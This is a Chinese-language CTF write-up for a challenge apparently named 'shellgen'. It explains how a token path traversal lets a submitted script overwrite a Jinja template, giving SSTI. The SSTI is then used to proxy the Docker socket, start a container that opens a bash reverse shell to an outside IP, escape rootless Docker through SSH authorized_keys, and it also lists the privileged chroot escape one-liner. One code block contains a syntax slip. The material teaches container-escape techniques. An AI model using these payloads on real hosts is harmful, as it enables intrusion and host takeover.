 # shellgen

首先访问可以看到部分源码，发现在运行提交的 python jio本的时候使用的token拼接到了一个目录名上
![](https://i.imgur.com/l442vYx.png)

且直接挂载进了跑python脚本的容器

![](https://i.imgur.com/aTnanVH.png)

结合/result处（以及源码各个位置都在暗示的）目录结构：

![](https://i.imgur.com/NQcP204.png)

这样我们能通过控制token为`../templates`将整个模版目录挂载到python脚本的运行环境中。我们可以向模版目录下的一个子目录写一个`result.html`

```python
subdir = '?'
pld.post(host + '/submit', data={
    'token': '../templates/' + subdir,
    'code': f'''
import os
with open('/opt/result.html', 'w') as f:
    f.write("""{payload}""")
'''.strip()
})
for _ in range(10):
    res = pld.get(host + '/result').text
    if res: break
    time.sleep(1)
```

于是我们就能控制result.html中的内容了。。么？怎么`500 Internal Server Error`了？
如果有人愿意本地调试一下的话，就会发现jinja爆的错误是`TemplateNotFound`，我们看到jinja的FileSystemLoader中写道：

```python
def split_template_path(template):
    """Split a path into segments and perform a sanity check.  If it detects
    '..' in the path it will raise a `TemplateNotFound` error.
    """
    ...
...
def get_source(self, environment, template):
    pieces = split_template_path(template)
    ...
```

所以我们需要用另外一个session来触发新写入的`result.html`的渲染

```python
```python
subdir = 'qwq'
pld.post(host + '/submit', data={
    'token': '../templates/' + subdir,
    'code': f'''
import os
with open('/opt/result.html', 'w') as f:
    f.write("""{payload}""")
'''.strip()
})
ses = session()
ses.post(host + '/submit', data={'token': subdir, 'code', ''})
for _ in range(10):
    
    res = ses.get(host + '/result').text
    if res: break
    time.sleep(1)
```

此时由于我们上面的代码先提交到了队列里，会先于后提交的代码执行，这一点也在给出的部分源码中进行了暗示：

```python
def poll():
    ...
    if queue.empty():
        return
    job = queue.get()
    thread = Thread(target=evaluate, args=[job['token'], job['code']])
    thread.start()
...
scheduler.add_job(id='executor', func=poll, trigger="interval", seconds=10)
# 每十秒仅取出一项任务运行
```

> 实际上在题目环境中，如果提交空代码的话，会赋值`session['token']`而不会添加新的执行任务，本意也是为了方便多次跑脚本

所以正常情况下（你的脚本不至于屑到10秒都跑不完的情况下）用新session访问result接口会先看到你自己写进去的模版。由于缓存的缘故，我们需要不断换subdir。

接下来先随便构造一个模版。

我自己的话先选择了写一个小代理，类似这样：

```python
{% set socket=request.application.__self__._get_data_for_json.__globals__.__builtins__.__import__("socket") %}
{% set s=socket.socket(socket.AF_UNIX, socket.SOCK_STREAM) %}
{% set n=s.connect("/var/run/docker.sock") %}
{% set n=s.sendall("{request}".encode()) %}
{{ s.recv(81920) }}
#.replace('}\n', '}').strip().replace('{request}', request)
```

完整的代理[脚本](https://gist.github.com/frankli0324/70d4b1e200a6d90ec6f97dfb87110537#file-proxy-py)

这样就可以像`DOCKER_HOST=localhost:9999 docker info`这样执行一些基础命令了。我们之所以能这么干是因为docker API本质上是基于HTTP设计的，传输过程无状态。

不过我们会发现像`docker run`这样的命令需要升级为双向连接，这样就干不了了，于是我们可以搞回来一个shell用用。我们把docker-cli和docker.sock搞进来，方便进一步操作宿主机。虽然题目容器本身没有外网，但是宿主机还是有外网的：

```python
{% set docker=request.application.__self__._get_data_for_json.__globals__.__builtins__.__import__("docker") %}
{% set s=docker.DockerClient() %}
{{ s.containers.run("ubuntu", "bash -c 'exec bash -i &>/dev/tcp/47.94.169.118/1234 <&1'", mounts=[docker.types.Mount(
    type='bind',
    source="/var/run/docker.sock",
    target="/var/run/docker.sock",
),docker.types.Mount(
    type='bind',
    source="/usr/bin/docker",
    target="/usr/bin/docker"
)]
) }}
```

等等，为什么permission denied？
这时候就应该进一步进行信息搜集。我们看一眼`docker info`：

```yml
Server:
 Containers: 2
  Running: 0
  Paused: 0
  Stopped: 2
  ...
 Server Version: 20.10.5
 Security Options:
  seccomp
   Profile: default
  rootless # 注意这里
  ...
 Kernel Version: 5.4.0-66-generic
 Operating System: Ubuntu 20.04.2 LTS
 Docker Root Dir: /home/d3ctf/.local/share/docker # 还有这里
```

> 这里应该给个hint的。。

关于docker-rootless的更多信息请参考<https://docs.docker.com/engine/security/rootless/>
简而言之，映射到题目容器的docker.sock对应的dockerd是一个低权限用户d3ctf启动的。宿主机上d3ctf用户的完整权限通过rootlesskit利用namespacing映射到了docker容器内的root权限，所以即便你拥有了完整控制dockerd的root权限，在宿主机也会被映射到d3ctf用户的权限。有一定了解之后我们将`/var/run/docker.sock`改为映射`/var/run/user/1000/docker.sock`进容器

之后就是拿宿主机的交互shell了。说实话这里我也没有找到太好的办法，我自己的话是先`curl ip.sb`拿到公网ip，在`/home/d3ctf/.ssh/authorized_keys`下写好自己的公钥，然后ssh连。不过由于比赛中我是把flag放在了d3ctf.dockerd启动的一个容器里，也有的队伍直接把flag容器拖走了，倒也不是不彳亍。这个flag容器也是挺有意思的，它的Dockerfile长这样：

```Dockerfile
FROM gcc AS builder

COPY getflag.cpp getflag.cpp
COPY sleep.cpp sleep.cpp
RUN g++ getflag.cpp -o getflag -static
RUN g++ sleep.cpp -o sleep -static

FROM scratch
COPY --from=builder getflag /getflag
COPY --from=builder sleep /sleep
CMD ["/sleep"]
```

所以即使拿到了宿主机shell，也得分析分析这个镜像里都有些啥才能getflag

本题想表达的有以下几点：

1. 在获取到部分源码时将其补全并在本地搭建最小环境，进行测试
2. docker.sock都能干些啥，docker rootless都能干些啥
3. 在能控制docker.sock时如何逃逸到**宿主机**（而不是别的容器），尤其是rootless dockerd（root dockerd可以`docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host`，rootless不行）
4. 如何审没有任何shell命令的容器（`FROM scratch`）
